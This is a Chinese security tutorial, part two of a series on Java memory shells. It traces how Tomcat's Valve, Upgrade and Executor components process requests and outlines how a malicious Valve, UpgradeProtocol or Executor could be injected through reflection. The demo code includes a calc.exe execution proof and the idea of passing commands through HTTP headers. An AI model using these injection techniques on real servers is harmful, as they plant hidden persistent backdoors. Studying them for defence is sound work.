# 零基础从 0 到 1 掌握 Java 内存马（2） - 先知社区

零基础从 0 到 1 掌握 Java 内存马（2）

- - -

继续开始我们的第二部分~

文章完整版已开源至`Github`，觉得写的不错的话就给个`star`吧~：

> [https://github.com/W01fh4cker/LearnJavaMemshellFromZero](https://github.com/W01fh4cker/LearnJavaMemshellFromZero)

## 2.13 Tomcat Valve 介绍与运行过程分析

### 2.13.1 Valve 与 Pipeline

在众多文章里面，下面的这篇我觉得是讲的最通俗易懂的，这里推荐给大家：

> [https://www.cnblogs.com/coldridgeValley/p/5816414.html](https://www.cnblogs.com/coldridgeValley/p/5816414.html)

这里我组合引用原文，做了适当的修改，概括一下：

`tomcat`中的`Container`有 4 种，分别是`Engine`、`Host`、`Context`和`Wrapper`，这`4`个`Container`的实现类分别是`StandardEngine`、`StandardHost`、`StandardContext`和`StandardWrapper`。`4`种容器的关系是包含关系，`Engine`包含`Host`，`Host`包含`Context`，`Context`包含`Wrapper`，`Wrapper`则代表最基础的一个`Servlet`。  
`tomcat`由`Connector`和`Container`两部分组成，而当网络请求过来的时候`Connector`先将请求包装为`Request`，然后将`Request`交由`Container`进行处理，最终返回给请求方。而`Container`处理的第一层就是`Engine`容器，但是在`tomcat`中`Engine`容器不会直接调用`Host`容器去处理请求，那么请求是怎么在`4`个容器中流转的，4 个容器之间是怎么依次调用的呢？

原来，当请求到达`Engine`容器的时候，`Engine`并非是直接调用对应的`Host`去处理相关的请求，而是调用了自己的一个组件去处理，这个组件就叫做`pipeline`组件，跟`pipeline`相关的还有个也是容器内部的组件，叫做`valve`组件。

`Pipeline`的作用就如其中文意思一样——管道，可以把不同容器想象成一个独立的个体，那么`pipeline`就可以理解为不同容器之间的管道，道路，桥梁。那`Valve`这个组件是什么东西呢？`Valve`也可以直接按照字面意思去理解为阀门。我们知道，在生活中可以看到每个管道上面都有阀门，`Pipeline`和`Valve`关系也是一样的。`Valve`代表管道上的阀门，可以控制管道的流向，当然每个管道上可以有多个阀门。如果把`Pipeline`比作公路的话，那么`Valve`可以理解为公路上的收费站，车代表`Pipeline`中的内容，那么每个收费站都会对其中的内容做一些处理（收费，查证件等）。

在`Catalina`中，`4`种容器都有自己的`Pipeline`组件，每个`Pipeline`组件上至少会设定一个`Valve`，这个`Valve`我们称之为`BaseValve`，也就是基础阀。基础阀的作用是连接当前容器的下一个容器（通常是自己的自容器），可以说基础阀是两个容器之间的桥梁。

`Pipeline`定义对应的接口`Pipeline`，标准实现了`StandardPipeline`。`Valve`定义对应的接口`Valve`，抽象实现类`ValveBase`，`4`个容器对应基础阀门分别是`StandardEngineValve`，`StandardHostValve`，`StandardContextValve`，`StandardWrapperValve`。在实际运行中，`Pipeline`和`Valve`运行机制如下图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002747-5368535c-c831-1.jpeg)

这张图是新加坡的`Dennis Jacob`在`ApacheCON Asia 2022`上的演讲《Extending Valves in Tomcat》中的`PPT`中的图片，`pdf`链接如下：

> [https://people.apache.org/~huxing/acasia2022/Dennis-Jacob-Extending-Valves-in-Tomcat.pdf](https://people.apache.org/~huxing/acasia2022/Dennis-Jacob-Extending-Valves-in-Tomcat.pdf)

这篇演讲的录屏在`Youtube`上面可以找到：

> [https://www.youtube.com/watch?v=Jmw-d0kyZ\_4](https://www.youtube.com/watch?v=Jmw-d0kyZ_4)

### 2.13.2 编写一个简单 Tomcat Valve 的 demo

由于在`Tomcat`环境下使用 Valve 还要配置 web.xml，我嫌麻烦，于是直接使用`SpringBoot`来搭建。记得这里勾选的是`Spring Web`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002748-53d585d0-c831-1.jpeg)

然后创建`test`目录并在`test`目录下创建两个文件，`TestValve.java`：

```bash
package org.example.valvememoryshelldemo.test;

import java.io.IOException;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.valves.ValveBase;
import org.springframework.stereotype.Component;

@Component
public class TestValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws IOException {
        response.setContentType("text/plain");
        response.setCharacterEncoding("UTF-8");
        response.getWriter().write("Valve 被成功调用");
    }
}
```

还有`TestConfig.java`：

```bash
package org.example.valvememoryshelldemo.test;

import org.apache.catalina.Valve;
import org.springframework.boot.web.embedded.tomcat.TomcatServletWebServerFactory;
import org.springframework.boot.web.server.WebServerFactoryCustomizer;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;

@Configuration
public class TestConfig {
    @Bean
    public WebServerFactoryCustomizer<TomcatServletWebServerFactory> tomcatCustomizer() {
        return factory -> {
            factory.addContextValves(getTestValve());
        };
    }

    @Bean
    public Valve getTestValve() {
        return new TestValve();
    }
}
```

运行效果如下：[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002749-54dbca3e-c831-1.jpeg)

### 2.13.3 Tomcat Valve 打入内存马思路分析

我们通常情况下用的都是`ValveBase`，点进这个`ValveBase`，可以看到是实现了`Valve`接口：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002752-5641c4dc-c831-1.jpeg)

点进`valve`可以看到该接口代码如下，这里我加上了注释：

```bash
package org.apache.catalina;

import java.io.IOException;
import javax.servlet.ServletException;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;

public interface Valve {
    // 获取下一个阀门
    public Valve getNext();
    // 设置下一个阀门
    public void setNext(Valve valve);
    // 后台执行逻辑，主要在类加载上下文中使用到
    public void backgroundProcess();
    // 执行业务逻辑
    public void invoke(Request request, Response response)
        throws IOException, ServletException;
    // 是否异步执行
    public boolean isAsyncSupported();
}
```

接下来就是调试看看这个`valve`的运行流程了，我们在`invoke`函数这里下断点调试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002754-5773c04e-c831-1.jpeg)

我们看向左下角，看看之前调用到的`invoke`方法：

在`StandardHostValve.java`中，代码为：

```bash
context.getPipeline().getFirst().invoke(request, response);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002755-5854b8ba-c831-1.jpeg)

在`StandardEngineValve.java`中，代码为：

```bash
host.getPipeline().getFirst().invoke(request, response);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002756-591d3eac-c831-1.jpeg)

之后的诸如`Http11Processor.java`和多线程的部分就不需要我们关注了。既然我们的目的是打入内存马，那根据我们掌握的`Tomcat Servlet/Filter/Listener`内存马的思路来看，我们需要通过某种方式添加我们自己的恶意`valve`。

我们去掉之前打的断点，在`StandardHostValve.java`这里打上断电并重新调试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002758-59fa6ff2-c831-1.jpeg)

然后`step into`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002759-5af32408-c831-1.jpeg)

鼠标左键单击这里的`getPipeline`即可进入到所调用的函数实现的位置：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002801-5bcd8c60-c831-1.jpeg)

再`Ctrl+H`进入`Pipeline`接口，可以看到是有个`addValve`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002802-5cbb2646-c831-1.jpeg)

这不正是我们需要的吗？我们去看看它是在哪儿实现的，直接在`addValve`函数处`Ctrl+H`找继承该接口的类，可可以看到是在`org.apache.catalina.core.StandardPipeline`中：

[](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image/image-20240130155445230.png)

但是问题就来了，我们无法直接获取到这个`StandardPipeline`，而我们能直接获取到的是`StandardContext`，那就去看看`StandardContext.java`中有没有获取`StandardPipeline`的方法。

一眼就能看到我们的老熟人——`getPipeline`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002804-5d94cfc2-c831-1.jpeg)

那这样以来我们的思路就可以补充完整了，先反射获取`StandardContext`，然后编写一个恶意`Valve`，最后通过`StandardContext.getPipeline().addValve()`添加就可以了。当然，我们也可以反射获取`StandardPipeline`，然后再`addValve`，这样也是可以的。

## 2.14 Tomcat Upgrade 介绍与打入内存马思路分析

### 2.14.1 编写一个简单的 Tomcat Upgrade 的 demo

#### 2.14.1.1 利用 SpringBoot 搭建

我这里在之前的`Tomcat Valve`项目的基础上做了简单的修改，删除之前`test`目录下的`TestValve.java`，新建一个`TestUpgrade.java`：

```bash
package org.example.valvememoryshelldemo.test;

import org.apache.coyote.*;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;
import org.springframework.context.annotation.Configuration;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;

@Configuration
public class TestUpgrade implements UpgradeProtocol {
    @Override
    public String getHttpUpgradeName(boolean b) {
        return "hello";
    }

    @Override
    public byte[] getAlpnIdentifier() {
        return new byte[0];
    }

    @Override
    public String getAlpnName() {
        return null;
    }

    @Override
    public Processor getProcessor(SocketWrapperBase<?> socketWrapperBase, Adapter adapter) {
        return null;
    }

    @Override
    public InternalHttpUpgradeHandler getInternalUpgradeHandler(SocketWrapperBase<?> socketWrapper, Adapter adapter, Request request) {
        return null;
    }

    public boolean accept(org.apache.coyote.Request request) {

        try {
            Field response = org.apache.coyote.Request.class.getDeclaredField("response");
            response.setAccessible(true);
            Response resp = (Response) response.get(request);
            resp.doWrite(ByteBuffer.wrap("\n\nHello, this my test Upgrade!\n\n".getBytes()));
        } catch (Exception ignored) {}
        return false;
    }
}
```

然后修改`TestConfig.java`如下：

```bash
package org.example.valvememoryshelldemo.test;

import org.springframework.boot.web.embedded.tomcat.TomcatServletWebServerFactory;
import org.springframework.boot.web.server.WebServerFactoryCustomizer;
import org.springframework.stereotype.Component;

@Component
public class TestConfig implements WebServerFactoryCustomizer<TomcatServletWebServerFactory> {

    @Override
    public void customize(TomcatServletWebServerFactory factory) {
        factory.addConnectorCustomizers(connector -> {
            connector.addUpgradeProtocol(new TestUpgrade());
        });
    }
}
```

运行之后命令行执行命令`curl -H "Connection: Upgrade" -H "Upgrade: hello" http://localhost:8080`，效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002806-5eb8d074-c831-1.jpeg)

#### 2.14.1.2 利用 Tomcat 搭建

当然也是可以利用`Tomcat`来搭建的，只需要`TestUpgrade.java`即可，因为里面含有定义的`servlet`逻辑：

```bash
package org.example;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Request;
import org.apache.coyote.Adapter;
import org.apache.coyote.Processor;
import org.apache.coyote.UpgradeProtocol;
import org.apache.coyote.Response;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;

@WebServlet("/evil")
public class TestUpgrade extends HttpServlet {

    static class MyUpgrade implements UpgradeProtocol {
        @Override
        public String getHttpUpgradeName(boolean b) {
            return null;
        }

        @Override
        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        @Override
        public String getAlpnName() {
            return null;
        }

        @Override
        public Processor getProcessor(SocketWrapperBase<?> socketWrapperBase, Adapter adapter) {
            return null;
        }

        @Override
        public InternalHttpUpgradeHandler getInternalUpgradeHandler(SocketWrapperBase<?> socketWrapperBase, Adapter adapter, org.apache.coyote.Request request) {
            return null;
        }

        @Override
        public boolean accept(org.apache.coyote.Request request) {
            try {
                Field response = org.apache.coyote.Request.class.getDeclaredField("response");
                response.setAccessible(true);
                Response resp = (Response) response.get(request);
                resp.doWrite(ByteBuffer.wrap("Hello, this my test Upgrade!".getBytes()));
            } catch (Exception ignored) {}
            return false;
        }
    }
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
        try {
            RequestFacade rf = (RequestFacade) req;
            Field requestField = RequestFacade.class.getDeclaredField("request");
            requestField.setAccessible(true);
            Request request1 = (Request) requestField.get(rf);
            new MyUpgrade().accept(request1.getCoyoteRequest());
        } catch (Exception ignored) {}
    }
}
```

效果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002807-5f845910-c831-1.jpeg)

### 2.14.2 Tomcat Upgrade 内存马介绍与相关代码调试分析

这部分主要参考了`Sndav`师傅的文章（原文地址为`https://tttang.com/archive/1709/`，但是由于图片链接挂掉导致图片无法显示，我们可以访问如下地址查看：`https://web.archive.org/web/20220823040415/https://tttang.com/archive/1709/`）以及`p4d0rn`师傅的文章（`https://p4d0rn.gitbook.io/java/memory-shell/tomcat-middlewares/upgrade`）。

和之前所提到的`Spring Interceptor`型内存马有点类似，在渗透过程中，尽管我们打入了内存马，但是因为原有的 Filter 包含鉴权或者其他功能，可能会导致我们的内存马无法访问，或者因为反向代理而导致我们无法找到对应的路径，这就需要我们在到`Filter`这一步之前就得打入内存马。

这里，我引用码哥字节文章（`https://blog.nowcoder.net/n/0c4b545949344aa0b313f22df9ac2c09`）里面的一张`Tomcat`架构图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002810-6134c272-c831-1.jpeg)

可以清楚地看到，在此之前还有`Executor`和`Processor`两个模块，本节内容主要讨论后者，在下节中我们会讨论前者。

这一部分需要更加完备的`Tomcat`的相关知识，不再满足于之前的四个容器，关于这些基础知识的学习，强烈建议看码哥字节的文章，写的确实特别的好：

> [https://blog.nowcoder.net/n/0c4b545949344aa0b313f22df9ac2c09](https://blog.nowcoder.net/n/0c4b545949344aa0b313f22df9ac2c09)

其实在之前学习`Tomcat Valve`的过程中，当时我是一步步`step over`跟完了所有的代码的，我当时也提了一嘴`Http11Processor`。我们还是以当时的项目为例来看。

我们还是在`StandardHostValve.java`的这行打上断点：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002813-62e0d17e-c831-1.jpeg)

从上面我红色箭头所指出的地方就可以看到调用到了`process`函数，具体调用位置位于`org.apache.coyote.AbstractProcessorLight#process`，我们跟过去看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002819-66550dca-c831-1.jpeg)

可以看到，如果当前`SocketWrapperBase`的状态是`OPEN_READ`的时候，才会调用对应的`processor`去处理（第二张图的`process`调用的位置可以通过第一张图左下角的那个`process`的后一个`process`点进去看到）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002825-6a674464-c831-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002827-6b33aa72-c831-1.jpeg)

我们继续`step into`这里的`service`方法看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002828-6c08a7f4-c831-1.jpeg)

继续`step over`，可以看到这里在检查`header`中的`Connection`头中是否为`upgrade`，这一点可以通过`step into`这个`isConnectionToken`方法看到：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002829-6cc38826-c831-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002831-6dadd7aa-c831-1.jpeg)

之后干两件事情：一是调用`getUpgradeProtocol`方法根据`upgradedName`从`httpUpgradeProtocols`拿到`UpgradeProtocol`；二是调用`UpgradeProtocol`对象的`accept`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002832-6e779be4-c831-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002834-6f4ffe76-c831-1.jpeg)

到了这里，我们似乎可以建立起一个猜想，和之前介绍的内存马类似，我们只要构造一个恶意的`UpgradeProtocol`，然后把它插入到`httpUpgradeProtocols`。

由于`httpUpgradeProtocols`是一个`hashmap`，那么向里面添加的话用到的肯定是`put`方法，直接搜`httpUpgradeProtocols.put`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002836-70877080-c831-1.jpeg)

我们在这行打上断点，然后调试，发现在我们没有执行`curl -H "Connection: Upgrade" -H "Upgrade: hello" http://localhost:8080`这条命令之前，断点就到了，也就是说，`httpUpgradeProtocols.put`这个事情是发生在`tomcat`启动的时候的。

那这样一来，思路就更加具体了一点：反射找到`httpUpgradeProtocols`，把恶意`upgradeProtocol`插入进去即可构成`upgrade`内存马，思路和之前是一模一样的。

那现在只需要解决最后一个问题——如何找到`httpUpgradeProtocols`的位置。我们打开之前用`tomcat`搭建的`Tomcat Upgrade`的`demo`，在如下位置打下断点，然后执行命令`curl -H "Connection: Upgrade" -H "Upgrade: hello" http://localhost:8080/evil`进入断点调试：：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002837-717cc44a-c831-1.jpeg)

`step over`一步即可在下方看到`request1`属性：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002839-726db0ee-c831-1.jpeg)

然后在`request1`里面的`connector`的`protocolHandler`里面发现了`httpUpgradeProtocols`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002841-7397bf1e-c831-1.jpeg)

接下来就是一步步地反射了。

## 2.15 Tomcat Executor 内存马介绍与打入内存马思路分析

### 2.15.1

新建一个项目，配置好`tomcat`运行环境和`web`目录，然后新建以下两个文件，第一个是 TestExecutor.java：

```bash
package org.example;

import java.io.IOException;
import java.util.concurrent.SynchronousQueue;
import java.util.concurrent.ThreadPoolExecutor;
import java.util.concurrent.TimeUnit;

public class TestExecutor extends ThreadPoolExecutor {

    public TestExecutor() {
        super(0, Integer.MAX_VALUE, 60L, TimeUnit.SECONDS, new SynchronousQueue<>());
    }

    @Override
    public void execute(Runnable command) {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        super.execute(command);
    }
}
```

第二个是`TestServlet.java`：

```bash
package org.example;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet("/test")
public class TestServlet extends HttpServlet {
    TestExecutor executor = new TestExecutor();

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
        executor.execute(() -> {
            System.out.println("Execute method triggered by accessing /test");
        });
    }
}
```

然后访问浏览器对应`context`下的`test`路由：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002842-7449e6a8-c831-1.jpeg)

### 2.15.2 Tomcat Executor 内存马介绍与代码调试分析

在`2.14.2`节中，我们聊到过可以在`Executor`模块中打入内存马，本节就来分析具体流程。本节主要参考文章为以下四篇：

> [https://p4d0rn.gitbook.io/java/memory-shell/tomcat-middlewares/executor](https://p4d0rn.gitbook.io/java/memory-shell/tomcat-middlewares/executor)
> 
> [https://cjlusec.ldxk.edu.cn/2023/02/15/Executor/](https://cjlusec.ldxk.edu.cn/2023/02/15/Executor/)
> 
> [https://xz.aliyun.com/t/11593](https://xz.aliyun.com/t/11593)
> 
> [https://xz.aliyun.com/t/11613](https://xz.aliyun.com/t/11613)

在我之前提到过的讲 tomcat 架构的基础文章（`https://blog.nowcoder.net/n/0c4b545949344aa0b313f22df9ac2c09`），有详细地讲述`ProtocolHandler`组件中的`EndPoint`部件，如果之前没有看完整地可以再去看下。里面这张图画的很好，我这里作引用：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002844-753638f0-c831-1.jpeg)

#### 2.15.2.1 Endpoint 五大组件

如下表所示：

| 组件  | 描述  |
| --- | --- |
| `LimitLatch` | 连接控制器，控制最大连接数 |
| `Acceptor` | 接收新连接并返回给`Poller`的`Channel`对象 |
| `Poller` | 监控`Channel`状态，类似于`NIO`中的`Selector` |
| `SocketProcessor` | 封装的任务类，处理连接的具体操作 |
| `Executor` | `Tomcat`自定义线程池，用于执行任务类 |

#### 2.15.2.2 Endpoint 分类

`EndPoint`接口的具体实现类为`AbstractEndpoint`，`AbstractEndpoint`具体的实现类有`AprEndpoint`、`Nio2Endpoint`、`NioEndpoint`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002845-765f1f94-c831-1.jpeg)

| Endpoint | 简要解释 | Tomcat 源码位置 |
| --- | --- | --- |
| `AprEndpoint` | 使用`APR`模式解决异步`IO`问题，提高性能 | `org.apache.tomcat.util.net.AprEndpoint` |
| `Nio2Endpoint` | 使用代码实现异步`IO` | `org.apache.tomcat.util.net.Nio2Endpoint` |
| `NioEndpoint` | 使用`Java NIO`实现非阻塞`IO` | `org.apache.tomcat.util.net.NioEndpoint` |

上面所提到的`tomcat`，指的是如下`pom`依赖：

```bash
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-coyote</artifactId>
    <version>9.0.83</version>
</dependency>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002847-770bc78a-c831-1.jpeg)

`Tomcat`默认启动是以`NioEndpoint`来启动的，它是`Tomcat`中默认的负责使用`NIO`方式进行网络通信功能的模块，它负责监听处理请求连接，并将解析出的字节流传递给`Processor`进行后续的处理。

#### 2.15.2.3 Executor 相关代码分析

点开`Executor.java`即可看到有一个`execute`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002848-77a5cf56-c831-1.jpeg)  
`Ctrl+Alt+F7`追踪即可看到这个`Executor`接口在`AbstractEndpoint`这个抽象类中有相关实现：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002853-7ab9ef4c-c831-1.jpeg)

在`AbstractEndpoint.java`中搜索`executor`，往下翻即可看到有`setExecutor`和`getExecutor`这两个函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002854-7b730360-c831-1.jpeg)

查看`getExecutor`函数的调用位置，发现就在该文件中有一个关键调用：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002856-7c7161c6-c831-1.jpeg)

跟过去：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002857-7d4b2276-c831-1.jpeg)

从下面这篇文章中我们可以知道`processSocket`在`Tomcat`运行过程中的作用：

> [https://blog.51cto.com/u\_8958931/2817418](https://blog.51cto.com/u_8958931/2817418)

那此时我们就有一个想法，如果我能控制`executor`，我把原来的`executor`通过`setExecutor`变成我恶意创建的`executor`，然后再通过这后面的`executor.execute`（`org.apache.tomcat.util.threads.ThreadPoolExecutor#execute(java.lang.Runnable)`）一执行就可以加载我们的恶意逻辑了。

但是现在有一个很头疼的问题，那就是标准的`ServletRequest`需要经过`Adapter`的封装后才可获得，这里还在`Endpoint`阶段，其后面封装的`ServletRequest`和`ServletResponse`无法直接获取。

那怎么办呢？结合之前学过的知识，我们很容易想到在之前我们第一次接触`java-object-researcher`的时候，`c0ny1`师傅写的这篇文章：

> [](https://xzfile.aliyuncs.com/media/upload/picture/20240211002858-7dc57850-c831-1.jpeg)
> 
> [http://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](http://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
> 
> [](https://xzfile.aliyuncs.com/media/upload/picture/20240211002859-7e8d8728-c831-1.jpeg)

那就试试看呗，我们导入`jar`包到项目之后修改`TestServlet.java`代码如下：

```bash
package org.example;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import me.gv7.tools.josearcher.entity.Blacklist;
import me.gv7.tools.josearcher.entity.Keyword;
import me.gv7.tools.josearcher.searcher.SearchRequstByBFS;
import java.util.ArrayList;
import java.util.List;

@WebServlet("/test")
public class TestServlet extends HttpServlet {
    TestExecutor executor = new TestExecutor();

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
        executor.execute(() -> {
            System.out.println("Execute method triggered by accessing /test");
        });
        List<Keyword> keys = new ArrayList<>();
        keys.add(new Keyword.Builder().setField_type("request").build());
        List<Blacklist> blacklists = new ArrayList<>();
        blacklists.add(new Blacklist.Builder().setField_type("java.io.File").build());
        SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);
        searcher.setBlacklists(blacklists);
        searcher.setIs_debug(true);
        searcher.setMax_search_depth(10);
        searcher.setReport_save_path("D:\\javaSecEnv\\apache-tomcat-9.0.85\\bin");
        searcher.searchObject();
    }
}
```

接着访问路由，然后在控制台输出中搜索`request =`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002901-7f85d054-c831-1.jpeg)

直接搜索到了这条链：

```bash
TargetObject = {org.apache.tomcat.util.threads.TaskThread} 
  ---> group = {java.lang.ThreadGroup} 
   ---> threads = {class [Ljava.lang.Thread;} 
    ---> [15] = {java.lang.Thread} 
     ---> target = {org.apache.tomcat.util.net.NioEndpoint$Poller} 
      ---> this$0 = {org.apache.tomcat.util.net.NioEndpoint} 
       ---> connections = {java.util.Map<U, org.apache.tomcat.util.net.SocketWrapperBase<S>>} 
        ---> [java.nio.channels.SocketChannel[connected local=/0:0:0:0:0:0:0:1:8080 remote=/0:0:0:0:0:0:0:1:10770]] = {org.apache.tomcat.util.net.NioEndpoint$NioSocketWrapper} 
         ---> socket = {org.apache.tomcat.util.net.NioChannel} 
          ---> appReadBufHandler = {org.apache.coyote.http11.Http11InputBuffer} 
            ---> request = {org.apache.coyote.Request}
```

我们来验证一下，在`org/apache/tomcat/util/net/NioEndpoint.java`的这里下断点，不断`step over`，就可以找到这里的`request`的位置：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002904-8171604a-c831-1.jpeg)

点开这里的`byteBuffer`，可以看到它是一个字节数组，右键找到`View as ... String`即可变成字符串：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002906-82c09970-c831-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002909-84175f84-c831-1.jpeg)

再点击上面我指出来的`View Text`即可清楚看到具体内容：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002912-85eca058-c831-1.jpeg)

这就意味着我们可以把命令作为`header`的一部分传入，再把结果作为`header`的一部分传出即可。
